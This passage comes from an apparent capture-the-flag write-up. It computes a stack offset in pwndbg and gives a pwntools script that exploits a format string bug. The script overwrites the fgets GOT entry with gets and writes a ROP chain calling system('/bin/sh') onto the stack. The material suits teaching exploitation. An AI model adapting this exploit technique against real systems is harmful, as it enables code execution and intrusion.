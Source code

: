 ![alt text](image-4.png)

And the offset is

```sh
pwndbg> p/x 0x7ffca25f0e20-0x7ffca25f0c78
$1 = 0x1a8
```

And last a put a`ROP` chain to that `stack address` using `Format String Bug`

```py
    write = {
        exe.got["fgets"]: libc.sym["gets"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")

    sa(b">", payload)

    sh = next(libc.search(b"/bin/sh\0"))
    system = libc.sym["system"]
    pop_rdi = 0x400cc3 # pop rdi; ret;
    ret = 0x040074e # ret;

    write = {
        stack: pop_rdi,
        stack + 8: sh,
        stack + 16: ret,
        stack + 24: system
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    print(len(payload))
    sa(b">", payload)

    sl(b"alter")
    sl(b"alter")
```
